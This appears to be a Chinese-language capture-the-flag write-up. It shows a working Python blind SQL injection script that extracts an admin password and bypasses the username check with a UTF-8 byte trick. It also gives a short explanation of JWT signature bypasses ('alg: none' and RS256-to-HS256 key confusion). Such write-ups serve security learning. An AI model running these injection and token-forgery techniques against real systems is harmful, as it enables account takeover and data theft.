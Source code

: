 这个题是个sqli，不是很擅长，找了波[资料](https://p0sec.net/index.php/archives/94/)。

从 `/robots.txt` 看到一个奇怪的脚本

```perl
length q chdir lc and print chr ord q each le and print chr ord q lc eval and print chr ord q lt eval and print chr ord q sin s and print chr ord q xor x and print chr ord qw q not q and print chr oct oct ord q eq ge and print chr ord q msgctl m and print chr ord q local and print chr ord q dump and and print chr ord q or no and print chr ord q oct no and print chr ord q ge log
```

扔到百度发现是perl，跑一下得到 `action=source` ，然后看到源码。

![utf-8-source.png](https://i.loli.net/2020/02/22/2RDA5ezUsVH8Ncb.png)

有个 utf-8 转 latin 找资料发现可以用 `admin%c2` bypass 用户名，密码直接盲注出来，是个原题，直接用原脚本就可以跑出来

然后就过了,payload 如下

```python
import requests
url = 'http://ctf.metasequoia.tk:29971/?action='
def check(payload):
    postdata = {'username':payload}
    r = requests.post(url+'show', postdata).content
    return b'admin' in r

password  = ''
s = '0123456789abcdef'

for i in range(32,0,-1):
    for c in s:
        payload = '\'=(select(1)from(user)where(mid((passwd)from(%d))=\'%s\'))=\'' % (i, (c+password))
        if check(payload):
            password = c + password
            break
    print(password)

print(requests.post(url+'login', data={
  'username': b'admin\xc2',
  'passwd': password
}).text)
```

直接返回flag，过了

---

### jwt

jwt是一种比session稍微高级一点的状态认证手段，最近在玩玩nodejs后端有研究，稍微看了眼题目，是个Python后端，用PyJWT写的jwt，RSA加密，可以获得公钥，没法搞到私钥。  
[JWT介绍](https://jwt.io)
网上找了波资料发现jwt有几个漏洞

1. 直接将`alg`设为`none` ,签名段留空
2. 把`alg`设为`HS256` 。本来为 `RS256` ，用私钥签名，用公钥验证，改为 `HS256` 后，由于服务器端还是用原RSA公钥验证，所以只要用原公钥签名的jwt传过去，也能验证成功。
